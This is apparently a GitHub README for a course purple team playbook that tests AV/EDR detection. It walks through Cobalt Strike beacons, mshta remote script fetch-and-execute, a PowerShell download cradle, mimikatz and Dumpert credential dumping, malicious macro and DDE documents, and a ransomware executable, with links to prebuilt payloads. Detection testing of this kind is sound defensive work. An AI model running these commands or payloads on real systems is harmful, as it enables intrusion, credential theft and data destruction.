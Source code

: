 # Purple Team Playbook for CSE566

*WARNING: This repo contains files many AV products including Windows Defender will find malicious. Do not download on a production system*

- This playbook is a quick and dirty purple team campaign developed for an infosec course
- The goal of this Purple Team Campaign is to compare detection capabilites for different AV (or EDR) products. All test cases will force on the endpoint
- Many of the payloads utilize Cobalt Strike. This is a paid commerical product, however, it should be easier enough modify the given playbook for open source tools such as Metasploit 
- Compiled payloads for Cobalt Strike Beacon assume a reverse http listener located at IP 192.168.56.102 (VirtualBox host-only network). These binaries are simple examples. Feel free to recompile following the provided instructions,
- The test cases roughly align to the MITRE ATT&CK framework. Unfortunately, they haven't been fully updated to align exactly to the latest release

## Execution Test Cases (basic)

### Test 1 - Client-side - Compiled Payload (Cobalt Strike)

(note: Cobalt Strike is a commerical product. Similar tests can be performed with Metasploit)

1. On Cobalt Strike teamserver, create listener by clicking the headphone icon in the toolbar. A basic HTTP listen is all that is required for this test. See documentation for more details https://www.cobaltstrike.com/downloads/csmanual40.pdf 
2. Generate executable payload in the Cobalt Strike toolbar -> attacks -> packages -> Windows Executable. Select the listener you created in step one and click generate.
    - Link to pre-genereated payload used for this test [beacon.exe](./payloads/beacon.exe)
3. Copy generated payload to target system.
4. Execute payload on target host as admin either through an elevated prompt or by right-clicking and running as administrator

### Test 2 - Client-side - Encrypted Payload (Cobalt Strike)
1. Server setup is the same as above
2. Encrypt payload using SPEGO from https://github.com/schladt/spego/releases. 
    - You only need the the SPEGO binary for the machine running Cobalt Strike along with example-config.yaml
    - Link to pre-generated encrypted payload used for this test: [encrypted-beacon.exe](./payloads/encrypted-beacon.exe) 

7. Copy the output executable from SPEGO to the target host

8. Set any environment variables. Powershell example for the pre-generated payload: 
```
$ ENV:SPEGOPASS='password'
```
9. Execute payload on target host as admin either through an elevated prompt or by right-clicking and running as administrator

### Test 3 - Process Creation Using MSBuild

(note: requires .NET4.0 or higher to be installed on target system)

1. Upload [T1127.csproj](./payloads/T1127.csproj) to target system. This can be accomplished with the Cobalt Strike Beacon upload feature, via Powershell's Invoke-Webrequest, or any other method desired
2. Run MSBuild with cmd.exe 
- ```C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe T1127.csproj```

    or via Cobalt Strike Beacon:

- ```beacon> shell c:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe T1127.csproj```


### Test 4 - Client Side - Locally executed .HTA Script
1. On the target machine download the [T1170.hta](./payloads/T1170.hta) to a local folder.
2. Execute "mshta.exe {full_path}/T1170.hta"

### Test 5 - Script Download - Remote Hosted .HTA Script
1. On a web server reachable by the target, host [script.sct](./payloads/script.sct) for MSHTA to download and execute.
2. Execute "mshta.exe javascript:a=(GetObject('script:#{file_url}')).Exec();close();" replacing {file_url} with the URL of the hosted script.

### Test 6 - Client Side - Locally executed .PS1 Script

1. On the target machine download [Invoke-DownloadCradle.ps1](./payloads/Invoke-DownloadCradle.ps1) to a local folder on the target system.
2. From a Powershell shell execute ".\Invoke-DownloadCradle.ps1" -- this requires "Set-ExecutionPolicy unrestricted" if not already set.

## Credential Dumping (https://attack.mitre.org/techniques/T1003/)
### Test 7 - Extract SAM Hashes via Beacon Hashdump
1. Use Cobalt Strike Beacon
2. Set ```sleep 0```
3. Execute ``` hashdump ```

### Test 8 - Extract Logonpasswords via Beacon Logonpasswords
1. Use Cobalt Strike Beacon
2. Set ```sleep 0```
3. Execute ``` logonpasswords ```

### Test 9 - Extract Logonpasswords via Mimikatz Binary

1. Upload encrypted [mimikatz package](./payloads/mk-2.2.0.7z) to target system. This can be accomplished via USB transfer, web download, or any other suitable transfer method.
2. Use 7 zip to extract the password protected file. The password is ```malware```
3. Open an administrator terminal (right click 'run as administrator') and navigate to the directory created in the previous step. If on a 64 bit system, navigate to the x64 directory \mk-2.2.0\x64\
4. Enter the following commands
```
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```

### Test 10 - Extract LSASS memory via Dumpert

1. (optional) Compile new version of Outflank Dumpert from source using Visual Studio https://github.com/outflanknl/Dumpert. Make sure you set the target build to 'Release'.
2. (optional) Encrypt dumpert executable using SPEGO https://github.com/schladt/spego
3. Copy dumpert executable to target system via any means available (usb, web transfer, etc). A password protected 7z file is included in this repo at [Dumpert.7z](./payloads/dumpert.7z). The password for this file is ```malware```
4. Open an administrive terminal such as powershell.
5. Navigate to the location of dumpert.exe on the target system and execute dumpert.exe

## Execution - Intermediate 
### Test 11 - Inter-Process Communication - Dynamic Data Exchange
1. In modern versions on MS Office DDE is disabled by default. For the purpose of purple team testing, we will enable this feature (becuase who knows what the users have enabled and social engineering is a plausible work-around). In Excel, perform the following:

    ```File → Options → Trust Center → Trust Center Settings → External Content → Enable Dynamic Data Exchange Server Launch```
2. Copy [dde.xlsx](./payloads/dde.xlsx) to the remote system
3. Open and accept all warnings

### Test 12 - Command and Scripting Interpreter: Visual Basic (via Cobalt Strike)
1. Generate macro code from Cobalt Strike GUI
    ```Attacks -> Packages -> MS Office Application -> {select listener} -> Generate```
2. Follow the Macro Instruction
    - optionally, download pre-generated payload used for this campaign [beacon.docm](./payloads/beacon.docm)
3. Copy file to target system
4. Open and enable macros 

### Test 13 - Ransomware Payload
1. WARNING THIS TEST IS VERY DISTRUPTIVE AND IT IS HIGHLY RECOMMENDED TO BE EXECUTED ON SNAPSHOTTED VIRTUAL MACHINE
2. Source code for test ransomeware can be found at [ransom.go](.payloads/ransom.go)
3. Executable found at [ransom.exe](.payloads/ransom.exe)
4. Copy executable to target system
5. Execute with ```ransom.exe {root directory}``` where {root directory} is an optional directory to encrypt recursively
6. ransom.exe will walk the root directory and look for files with several pre-defined extensions.  